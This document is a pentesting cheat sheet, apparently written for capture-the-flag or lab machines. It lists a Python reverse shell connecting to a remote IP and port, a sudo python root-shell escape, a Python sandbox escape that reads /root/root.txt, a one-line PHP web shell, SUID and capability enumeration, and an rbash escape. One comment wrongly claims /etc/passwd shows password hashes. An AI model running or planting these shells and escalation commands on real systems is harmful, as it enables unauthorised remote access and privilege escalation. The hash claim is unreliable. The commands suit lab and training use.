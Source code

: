 # Python Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#used to gain root access in some systems.
```
sudo python3.5 -c ‘import os; os.system(“/bin/sh”)’
```
#command used to open up a reverse shell from the browser.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
python escape characters:
```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```
#can be used to find real host name.
```
curl -H 'Host: http://172.16.226.6' "http://172.16.226.6/'"
```
to exploit a cronjob
https://gtfobins.github.io/gtfobins/tar/

Shows the password hashes on a linux system
```
cat /etc/passwd
```
Shows the groups on a linux system
```
cat /etc/group
```
```
ls -lh /var/mail/
```
```
dpkg -l
```
Check for Suid binaries
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
```
 find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
Lists capabilities of binaries
```
getcap -r /
```
Shows user group files
```
find / -type f -group users 2>/dev/null
```
Simple php shell:
```
<?php system($_GET['0xdf']); ?>
```
ssh tunnel:
```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
list processes and open ports:
```
ps -aux

netstat -an
```
To escape rbash:
```
ssh mindy@10.10.10.51 -t bash
```
